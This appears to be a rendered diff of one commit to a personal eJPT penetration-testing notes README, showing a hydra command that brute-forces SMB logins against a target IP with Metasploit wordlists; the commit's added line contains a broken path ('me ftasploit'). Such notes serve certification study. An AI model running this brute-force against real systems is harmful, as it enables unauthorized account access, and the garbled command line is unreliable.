

Before and after one commit to Hackerjedi666/CybersecNotes, a Markdown page: ejpt/README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/ejpt/README.md
+++ b/ejpt/README.md
@@ -336,7 +336,7 @@ flag: eb09cc6f1cd72756da145892892fbf5a
 Default attack:  Bruteforce with hydra
 Script:
 ```bash
-hydra -L /usr/share/metasploit-framework/data/wordlists/common_user.txt -P usr/share/metasploit-framework/data/wordlists/common_passwords.txt $ip smb
+hydra -L /usr/share/me ftasploit-framework/data/wordlists/common_user.txt -P usr/share/metasploit-framework/data/wordlists/common_passwords.txt $ip smb
 ```
 
 Other utitiliy for exploiting smb is
````
